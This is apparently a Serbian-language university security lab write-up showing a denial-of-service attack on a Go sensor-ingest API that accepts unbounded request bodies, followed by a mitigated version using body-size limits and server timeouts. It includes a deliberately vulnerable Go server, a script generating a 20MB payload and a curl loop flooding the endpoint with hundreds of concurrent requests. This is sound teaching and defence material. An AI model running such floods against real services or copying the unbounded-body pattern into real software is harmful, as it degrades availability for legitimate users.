


# Exploit 2 (Praktični) - DoS nad Go API (unbounded request body / resource exhaustion)

## 0. Kratak opis

UrbanSense sadrži Go servis koji prima podatke (npr. ingest endpoint) i obrađuje ih u realnom vremenu. U ranjivoj verziji API prihvata request body bez ograničenja veličine i bez osnovnih zaštitnih mehanizama (limit veličine tela, timeout-i, rate limiting). Napadač može slati ekstremno velike payload-e (ili veliki broj zahteva) i izazvati potrošnju memorije/CPU resursa, degradaciju performansi ili obaranje servisa. 

Ovaj napad primarno narušava dostupnost (Availability) sistema.

---

## 1. Pogođene komponente

- Go API (ingest endpoint koji prima JSON payload)
- Operativni resursi hosta (CPU, memorija, broj otvorenih konekcija)

---

## 2. Bezbednosni ciljevi i osetljivi resursi

### Primarni narušeni cilj
- **Availability (Dostupnost):** servis postaje spor, nedostupan ili se ruši pod opterećenjem.

### Sekundarni efekti
- **Integrity (Integritet):** u slučaju parcijalne obrade može doći do nepotpunih ili nekonzistentnih zapisa/logova.
- **Operational cost:** povećana potrošnja resursa (CPU/memorija/bandwidth) i potencijalno povećanje troškova u cloud okruženju.

### Osetljivi resursi (assets)
- Memorija i CPU na hostu
- Thread/goroutine resursi (konkurentni handler-i)
- Mrežni resursi (bandwidth, broj konekcija)

---

## 3. Ranjivost

### Suština ranjivosti
API endpoint prima request body bez:
- ograničenja veličine request body-ja,
- kontrolisanih timeout vrednosti na HTTP serveru,
- rate limiting-a ili ograničenja broja zahteva po klijentu.

U tipičnom Go kodu, problem nastaje kada se request obrađuje bez `http.MaxBytesReader`, a server se pokreće bez eksplicitnih timeout-a, pa napadač može:
- slati vrlo velike JSON payload-e koji troše memoriju i CPU (parsing),
- slati veliki broj zahteva u kratkom vremenu i preopteretiti handler-e.

### Klasa slabosti (CWE)
- **CWE-400: Uncontrolled Resource Consumption** (resursi nisu kontrolisani)
- **CWE-770: Allocation of Resources Without Limits or Throttling** (resursi se alociraju bez limita) 

### Mapiranje na OWASP API rizike
- **OWASP API4:2023 - Unrestricted Resource Consumption** 

---

## 4. Pretnja i scenario napada

### Pretnja
Napadač izaziva DoS napad slanjem prevelikih request-ova ili velikog broja request-ova ka ingest endpoint-u.

### Napadač
- eksterni korisnik koji ima mrežni pristup API-ju,
- ili kompromitovan uređaj/servis koji šalje podatke.

### Preduslovi
- API je dostupan napadaču (npr. port otvoren ili servis iza proxy-ja bez limita),
- endpoint prihvata request body bez limita,
- nema rate limiting-a i timeouts nisu adekvatno postavljeni.

### Tok napada (high-level)
1. Napadač generiše payload ekstremne veličine (npr. 10MB, 50MB, 200MB).
2. Napadač šalje payload na API endpoint (npr. `POST /api/ingest`).
3. Server troši memoriju/CPU prilikom čitanja i parsiranja tela.
4. Servis postaje spor, počinje da vraća greške, ili postaje nedostupan.

---

## 5. Očekivani rezultat (dokaz uspeha)

Napad se smatra uspešnim ukoliko se potvrdi makar jedno od sledećeg:
- značajno povećanje latencije odgovora (servis spor),
- povećana potrošnja memorije/CPU tokom napada (npr. posmatrano kroz `htop`),
- greške tipa 5xx, timeouts ili prekid rada procesa,
- nemogućnost legitimnim klijentima da dobiju odgovor.

---

## 6. Implementacija (ranjiva verzija) i izvođenje napada

Ovaj deo opisuje minimalni Go API sa ranjivim ponašanjem, kao i tok demonstracije napada.

### 6.1. Go API (ranjiva verzija)

Kreiran je direktorijum:

- `implementation/vulnerable/go_api/`

U navedenom direktorijumu se nalazi minimalna ranjiva implementacija API-ja:

- `main.go`

#### 6.1.1. `main.go` (ranjiva implementacija)

Fajl: `implementation/vulnerable/go_api/main.go`

```go
package main

import (
	"encoding/json"
	"fmt"
	"log"
	"net/http"
)

type SensorPayload map[string]any

func ingestHandler(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "method not allowed", http.StatusMethodNotAllowed)
		return
	}

	// RANJIVO: nema limita veličine body-ja (unbounded request body)
	// RANJIVO: parsing potencijalno troši CPU i memoriju za velike payload-e

	var payload SensorPayload
	dec := json.NewDecoder(r.Body)
	if err := dec.Decode(&payload); err != nil {
		http.Error(w, "invalid json", http.StatusBadRequest)
		return
	}

	log.Printf("[INGEST] received keys=%d\n", len(payload))
	fmt.Fprintln(w, "ok")
}

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/api/ingest", ingestHandler)

	// RANJIVO: ListenAndServe bez timeout-a i bez dodatnih limita
	log.Println("Listening on :8080")
	log.Fatal(http.ListenAndServe(":8080", mux))
}
```


### 6.2. Pokretanje ranjive verzije

Iz direktorijuma implementation/vulnerable/go_api/:

```
go run main.go
```

### 6.3. Posmatranje resursa (pre napada)

Tokom demonstracije koristi se htop radi praćenja CPU i memorije:

```
top
```

### 6.4. Izvođenje napada (PoC)

Napad se demonstrira slanjem prevelikog JSON payload-a na /api/ingest.

#### 6.4.1. Generisanje velikog payload fajla

Primer kreiranja JSON fajla veličine oko 20MB:

```
python3 - << 'PY'
import json
blob = "A" * (20 * 1024 * 1024)  # 20MB, što je veći json, to je veće opterećenje
data = {"sensorId": "attacker", "type": "air_quality", "blob": blob}
with open("big.json", "w") as f:
    json.dump(data, f)
print("Created big.json")
PY
```

#### 6.4.2. Slanje zahteva na ingest endpoint

```
curl -s -o /dev/null -w "HTTP=%{http_code} time=%{time_total}\n" \
  -X POST "http://localhost:8080/api/ingest" \
  -H "Content-Type: application/json" \
  --data-binary @big.json
```

#### 6.4.3. Opcionalno: ponavljanje zahteva radi pojačanog efekta

```
for r in {1..30}; do
  for i in {1..20}; do
    curl -s -o /dev/null -X POST "http://localhost:8080/api/ingest" \
      -H "Content-Type: application/json" \
      --data-binary @big.json &
  done
  sleep 0.2
done
wait
```

### 6.5. Verifikacija uspeha napada

Napad se potvrđuje kroz kombinaciju:

- Go server logova (npr. više ingest događaja),
- povećanja CPU/memorije u `htop`,
- povećane latencije `curl` komande ili neuspeli odgovori.


<p align="center">
  <i>Praćenje CPU i memorije tokom napada</i>
</p>

---

## 7. Mitigacija i ponovna provera (retest)

Nakon demonstracije ranjivog ponašanja, implementirana je mitigacija koja uvodi:

- limit veličine request body-ja,
- eksplicitne HTTP server timeout vrednosti,
- predvidljiv odgovor za prevelike zahteve.

### 7.1. Teorijska osnova mitigacije

Prema OWASP API4:2023, neophodno je uvesti limite potrošnje resursa (veličina payload-a, broj zahteva, konkurentni zahtevi) kako bi se sprečila nekontrolisana potrošnja resursa i DoS.

Za limit veličine request body-ja u Go standardnoj biblioteci koristi se `http.MaxBytesReader`, čiji je cilj sprečavanje slučajnog ili malicioznog slanja prevelikih request-ova.

Za prevelike zahteve, standardni HTTP status kod je **413 Content Too Large** (ranije poznat kao "Payload Too Large").

### 7.2. Mitigovana implementacija

Kreiran je direktorijum:

- `implementation/mitigated/go_api/`

U navedenom direktorijumu se nalazi mitigovana verzija:

- `main.go`

#### 7.2.1. main.go (mitigovana implementacija)

Fajl: `implementation/mitigated/go_api/main.go`

```go
package main

import (
	"encoding/json"
	"errors"
	"fmt"
	"log"
	"net/http"
	"time"
)

type SensorPayload map[string]any

const maxBodyBytes = 1 * 1024 * 1024 // 1MB limit za demonstraciju

func ingestHandler(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "method not allowed", http.StatusMethodNotAllowed)
		return
	}

	// MITIGACIJA 1: limit veličine request body-ja
	r.Body = http.MaxBytesReader(w, r.Body, maxBodyBytes)

	var payload SensorPayload
	dec := json.NewDecoder(r.Body)
	if err := dec.Decode(&payload); err != nil {
		// Ako je prekoračen limit, Go vraća MaxBytesError
		var mbe *http.MaxBytesError
		if errors.As(err, &mbe) {
			http.Error(w, "request too large", http.StatusRequestEntityTooLarge) // 413
			return
		}
		http.Error(w, "invalid json", http.StatusBadRequest)
		return
	}

	log.Printf("[INGEST] received keys=%d\n", len(payload))
	fmt.Fprintln(w, "ok")
}

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/api/ingest", ingestHandler)

	// MITIGACIJA 2: eksplicitni timeout-i na HTTP serveru
	srv := &http.Server{
		Addr:              ":8080",
		Handler:           mux,
		ReadHeaderTimeout: 5 * time.Second,
		ReadTimeout:       10 * time.Second,
		WriteTimeout:      10 * time.Second,
		IdleTimeout:       30 * time.Second,
	}

	log.Println("Listening on :8080")
	log.Fatal(srv.ListenAndServe())
}
```

> Napomena: Rate limiting (per IP ili per API key) može biti dodat kao naredni korak.


### 7.3. Pokretanje mitigovane verzije

Iz direktorijuma `implementation/mitigated/go-api/`:

```
go run main.go
```

### 7.4. Retest
#### 7.4.1. Slanje prevelikog payload-a (očekuje se 413)

```
curl -s -o /dev/null -w "HTTP=%{http_code} time=%{time_total}\n" \
  -X POST "http://localhost:8080/api/ingest" \
  -H "Content-Type: application/json" \
  --data-binary @big.json
```

Očekivani rezultat:

- `HTTP=413` (Content Too Large / Payload Too Large)

#### 7.4.2. Slanje validnog malog payload-a (očekuje se 200)

```
curl -i -X POST "http://localhost:8080/api/ingest" \
  -H "Content-Type: application/json" \
  -d '{"sensorId":"sensor001","pm25":20}'
```

Očekivani rezultat:

- `HTTP/1.1` 200 OK

### 7.5. Zaključak mitigacije

Nakon uvođenja limita veličine request body-ja i eksplicitnih timeout vrednosti, ranjivi endpoint više ne prihvata prevelike payload-e i vraća predvidljiv odgovor (413). Time se značajno smanjuje mogućnost DoS napada zasnovanog na nekontrolisanoj potrošnji resursa.


<p align="center">
  <i>Mitigacija - HTTP 413 za veliki payload, HTTP 200 za mali payload.</i>
</p>

---

## 8. Video uputstvo (step-by-step demo)

Za kompletan prikaz svih koraka (pokretanje ranjive verzije, napad, posmatranje resursa, mitigacija, retest) dostupno je video uputstvo.

[](https://github.com/0101dusica/zoss-labs/blob/main/urbanSense/KT3/exploits/videos/exploit2-demo.mp4)

---

## 9. Reference

- [OWASP API4:2023 - Unrestricted Resource Consumption](https://owasp.org/API-Security/editions/2023/en/0xa4-unrestricted-resource-consumption/)
- [OWASP API Security Top 10 2023 list](https://owasp.org/API-Security/editions/2023/en/0x11-t10/)
- [MITRE CWE-400: Uncontrolled Resource Consumption](https://cwe.mitre.org/data/definitions/400.html)
- [MITRE CWE-770: Allocation of Resources Without Limits or Throttling](https://cwe.mitre.org/data/definitions/770.html)
- [Go net/http: MaxBytesReader (standard library docs)](https://pkg.go.dev/net/http#MaxBytesReader)
- [RFC 9110: HTTP Semantics (status 413 Content Too Large)](https://www.rfc-editor.org/rfc/rfc9110.html)
- [MDN: 413 Content Too Large](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/413)